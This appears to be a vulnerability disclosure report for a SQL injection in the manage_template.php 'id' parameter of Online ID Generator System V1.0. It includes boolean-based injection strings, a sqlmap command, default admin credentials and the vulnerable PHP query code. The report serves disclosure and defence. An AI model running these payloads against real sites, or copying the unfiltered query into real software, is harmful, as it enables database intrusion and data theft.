



# [Online ID Generator System-SQL Injection-manage_template.php-id]

## Basic Information

**[Bug Reporter]:** DililLearngent

**[Application Vendors]:** https://www.sourcecodester.com/php/14917/online-id-generator-system-using-php-free-source-code.html

**[Affected Version]:** Online ID Generator System V1.0

**[Test Environment]:** windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"id_generator_db"**.

5. **Import** the provided **`SQL`** file. The file is known as **`id_generator_db.sql`** located inside the **database** folder.

6. **Browse** the **Online ID Generator System** in a **browser**. i.e. **`http://localhost/id_generator`**.

   **Admin Access Information:**

   Username: **admin**
   Password: **admin123**

## Bug Information

**[Vulnerability type]:** SQL Injection

**[Vulnerability Url]:** `http://localhost/id_generator/admin/?page=templates/manage_template&id=1`    

**[Vulnerability Location]:** id_generator/admin/templates/manage_template.php

**[Vulnerability Test]:**

1. When you enter `1' and '1'='1` in the `id` parameter, the page displays as follows:

   

   

2. When you enter `1' and '1'='2` in the `id` parameter, the page displays as follows:

   

3. Testing with sqlmap

   ```
   python sqlmap.py -u "http://localhost/id_generator/admin/?page=templates/manage_template&id=1" -p "id" --cookie="PHPSESSID=c6ikif3reuhfclaa66bo04s2sj" --current-db
   ```

   

**[code analysis]:**

id_generator/admin/templates/manage_template.php

```php
<?php 
    if(isset($_GET['id']) && $_GET['id'] > 0){
        $user = $conn->query("SELECT * FROM `id_format` where id ='{$_GET['id']}'");
        foreach($user->fetch_array() as $k =>$v){
            $$k = $v;
        }
    }
?>
```

The GET parameter `id` is obtained without any filtering and spliced directly into the sql execution statement, and then a different page response exists depending on the result of the execution.